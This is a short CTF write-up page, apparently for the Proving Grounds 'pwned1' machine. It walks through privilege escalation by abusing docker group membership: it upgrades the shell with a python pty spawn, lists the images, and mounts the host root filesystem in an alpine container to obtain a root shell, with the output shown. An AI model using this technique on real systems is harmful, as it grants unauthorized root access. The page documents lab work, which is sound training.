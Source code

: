 ```yaml
---
layout: default
title: Docker
parent: Shell Breakout
nav_order: 1
---
```


# Docker

---

## Exploit Docker Permissions

```bash
selena@pwned:/home$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

As we can see above, Selena is in the _docker_ group.

We can see which Docker images are on this machine

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        3 years ago         88.3MB
<none>              <none>              e13ad046d435        3 years ago         88.3MB
alpine              latest              a24bb4013296        3 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB

```

According to GTFOBins we can exploit _docker_ to get a root shell

![gtfobins](../../../../assets/images/ctfs/proving_grounds/pwned1/gtfobins.png)

```bash
selena@pwned:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root

```
